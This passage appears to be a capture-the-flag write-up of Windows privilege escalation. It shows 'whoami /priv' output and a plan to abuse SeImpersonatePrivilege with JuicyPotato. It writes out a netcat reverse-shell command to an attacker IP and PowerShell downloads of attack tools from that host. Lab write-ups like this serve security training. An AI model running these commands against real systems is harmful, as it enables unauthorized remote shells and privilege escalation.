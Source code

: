 ## Method2: Check Privilege

Firstly, let's try check our privilege on my terminal.

```cmd
whoami /priv
```

```txt
PS C:\Users\Destitute\Desktop> whoami /priv 

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```

### JuicyPotato

https://github.com/ohpe/juicy-potato

![[Conceal-17.png]]

From the privilege information we will know `SeChangeNotifyPrivilege` and `SeImpersonatePrivilege` was enabled. Means we could use JuicyPotato machine.

I’ll also create a `rev.bat` that runs the nc command I issued to the webshell:

```cmd
C:\users\Destitute\appdata\local\temp\nc64.exe 10.10.14.9 3333 -e cmd.exe
```

Get the latest [JuicyPotato](https://github.com/ohpe/juicy-potato/releases) nc64.exe and upload by http server:

```powershell
cd C:\users\Destitute\appdata\local\temp
iwr -uri http://10.10.14.9/JuicyPotato.exe -Outfile .\JuicyPotato.exe
iwr -uri http://10.10.14.9/nc64.exe -Outfile .\nc64.exe
iwr -uri http://10.10.14.9/rev.bat -Outfile .\rev.bat
```

Now I need to get a valid CLSID. Based on the `systeminfo` I can see it’s Windows 10 Enterprise:

```txt
OS Name:                   Microsoft Windows 10 Enterprise
```
